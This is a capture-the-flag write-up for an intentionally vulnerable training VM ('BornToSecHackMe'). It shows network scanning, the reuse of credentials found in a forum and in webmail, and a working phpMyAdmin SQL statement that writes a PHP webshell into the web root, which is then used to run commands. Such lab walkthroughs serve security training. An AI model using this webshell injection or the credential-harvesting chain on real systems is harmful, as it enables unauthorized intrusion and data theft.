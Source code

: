 # Writeup1:
# Part1: Find something

![Iso launched](/img/begin_vm.png)

I guess we need to find IP of this Vm, at moment it was the unique way to continue
But with command **ifconfig**, the Vm isn't on network..

## Explore to find, but what ?
- We launched the iso on linux under Virtualbox, firstly we need to create a Host Network Manager to acces its IP
- After set up Network, go to setting about VM `tab:Network` and change `Attached to:`->`NAT`to`Host-only Adapter`
    * Name of your Host Network will be appear below, fine now **ifconfig** works as expected

```c
vboxnet*: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.56.1  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::800:27ff:fe00:0  prefixlen 64  scopeid 0x20<link>
        ether 0a:00:27:00:00:00  txqueuelen 1000  (Ethernet)
        ...
```

- To find IP, use nmap without flag to find it quickly, then launch a new nmap scan with some flags

```cs
└─$ nmap 192.168.56.1/24
...
Nmap scan report for 192.168.56.3
...

└─$ sudo nmap -sV --script=http-enum 192.168.56.3
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 16:40 EDT
Nmap scan report for 192.168.56.3
Host is up (0.00090s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-enum: 
|   /forum/: Forum
|   /phpmyadmin/: phpMyAdmin
|   /webmail/src/login.php: squirrelmail version 1.4.22
|_  /webmail/images/sm_logo.png: SquirrelMail
993/tcp open  ssl/imap Dovecot imapd
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.45 seconds
```
* nmap scan reveals a WebServer Apache/2.2.22
    * 1 route on 80 port
    * 3 routes on 443port (forum, phpmyadmin, webmail)

* And with ***dirb*** it's more interesting !
```cs
└─$ dirb https://192.168.56.3 -R
...
GENERATED WORDS: 4612                                                          

---- Scanning URL: https://192.168.56.3/ ----
+ https://192.168.56.3/cgi-bin/ (CODE:403|SIZE:289)                                           
==> DIRECTORY: https://192.168.56.3/forum/                                                    
==> DIRECTORY: https://192.168.56.3/phpmyadmin/                                               
+ https://192.168.56.3/server-status (CODE:403|SIZE:294)                                      
==> DIRECTORY: https://192.168.56.3/webmail/                                                  

---- Entering directory: https://192.168.56.3/forum/ ----
(?) Do you want to scan this directory (y/n)? y                                                + https://192.168.56.3/forum/backup (CODE:403|SIZE:293)                                       
--> Testing: https://192.168.56.3/forum/backup-db                                             
+ https://192.168.56.3/forum/config (CODE:403|SIZE:293)                                       
==> DIRECTORY: https://192.168.56.3/forum/images/                                             
==> DIRECTORY: https://192.168.56.3/forum/includes/                                           
+ https://192.168.56.3/forum/index (CODE:200|SIZE:4935)                                       
+ https://192.168.56.3/forum/index.php (CODE:200|SIZE:4935)                                   
==> DIRECTORY: https://192.168.56.3/forum/js/                                                 
==> DIRECTORY: https://192.168.56.3/forum/lang/                                               
==> DIRECTORY: https://192.168.56.3/forum/modules/                                            
==> DIRECTORY: https://192.168.56.3/forum/templates_c/                                        
==> DIRECTORY: https://192.168.56.3/forum/themes/                                             
==> DIRECTORY: https://192.168.56.3/forum/update/
...
```

## Root, but not really

* On the *forum*, with 6 users (admin, lmerard, qudevide, thor, wandre and zaz)
* There is post `Probleme login ?` by `lmezard`, and we find this user `!q\]Ej?*5K5cy*AJ`
    * We can connect to the *forum* with this logs
    * And we find its mail *`laurie@borntosec.net `*, now we can try to connect in *webmail* route, that works!

* On *webmail*, there is mail send by `qudevide@mail.borntosec.net` on Subject `DB Access` which contains an access log `root/Fg-'kKXBj87E:aJ$`, probably for the DB(*phpmyadmin*)
    * That works, we are root of the database

* In `forum_db` struct `mlf2_userdata`, we find the all users found earlier, with their password hashed
    * And in `mysql` struct `user`, I guess these are the database admin profiles (Passwords seems to be hashed in SHA1, MySQL4.1/MySQL5)
    * Tried to decrypt them without success..

* Try to make a [reverse](https://en.wikipedia.org/wiki/Shell_shoveling)/[web](https://en.wikipedia.org/wiki/Web_shell) shell

* Let try to inject it, on phpmyadmin in `SQL` tab
```sql
SELECT "<?php system($_GET['cmd'] . '2>&1'); ?>" INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```
* That works
```bash
└─$ curl --insecure "https://192.168.56.3/forum/templates_c/webshell.php?cmd=pwd"
/var/www/forum/templates_c
```
* Finaly find new log at `/home/LOOKATME/password` -> `lmezard:G!@M6f4Eatau{sF"`, doubtless for ssh or ftp connect log

```bash
└─$ ftp lmezard@192.168.56.3
Connected to 192.168.56.3.
220 Welcome on this server
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

* We have 2 file into the ftp server, let's donwload them
```bash
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
```
* README and fun can be read now
    - fun seems a *tar* file containing many pcap
```bash
└─$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
└─$ file fun
fun: POSIX tar archive (GNU)
└─$ ls ft_fun 
00M73.pcap  55WLW.pcap  ATLJ4.pcap  GX39Y.pcap  NJBCM.pcap  T7R09.pcap
...
```
* pcap file main has corrupt, cause it split in some parts
    - Note: with *cat*, we can read and concate this files
```bash
└─$ cat * > pcap.out
...
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
...
```
* After investigate the file, we found all getmexx, we got`laurie`'s password
```cs
Iheartpwnage -> 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```
* Now we can access to ssh port
    - And same previous, let find the password of *thor*
```bash
laurie@192.168.56.3's password: 
laurie@BornToSecHackMe:~$ ls -l
total 27
-rwxr-x--- 1 laurie laurie 26943 Oct  8  2015 bomb
-rwxr-x--- 1 laurie laurie   158 Oct  8  2015 README
laurie@BornToSecHackMe:~$ cat README 
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
laurie@BornToSecHackMe:~$ ./bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
```

